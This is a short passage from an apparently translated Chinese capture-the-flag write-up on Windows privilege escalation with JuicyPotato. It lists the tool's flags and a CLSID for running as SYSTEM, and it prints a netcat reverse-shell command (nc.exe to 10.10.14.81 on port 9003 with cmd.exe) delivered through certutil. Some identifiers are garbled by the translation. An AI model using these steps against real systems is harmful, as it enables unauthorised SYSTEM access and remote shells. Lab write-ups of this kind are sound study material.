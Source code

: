 我需要的是以下旗帜:

```
-t (try both), -p (any program we want to run as system) , -l (which can be anything) , and -c {clsid}
```

因为 juicypotato 需要依赖于 Windows 操作系统的 clsid。我运行 systeminfo，看到这是一个 Windows Server 2012 R2 数据中心。请注意，根据我们的 nmap 扫描，它被识别为 Windows 2008。

![](img/7acda05148dab67fa3f2cfe6244f7920.png)

我可以在这里寻找可能的 CLSID:[http://ohpe . it/juicy-potato/CLSID/Windows _ Server _ 2012 _ data center/](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter/)。

我使用的第一个 CLSID as 系统是{ e 60687 f 7–01a 1–40aa-86ac-db 1 CBF 673334 }。然后，我使用 certutil 传输一个. bat 文件，它基本上包含:

```
C:/Windows/System32/spool/drivers/color/nc.exe 10.10.14.81 9003 -e cmd.exe
```

![](img/bd42e48bdcbe39beb2151dde7d517fb6.png)
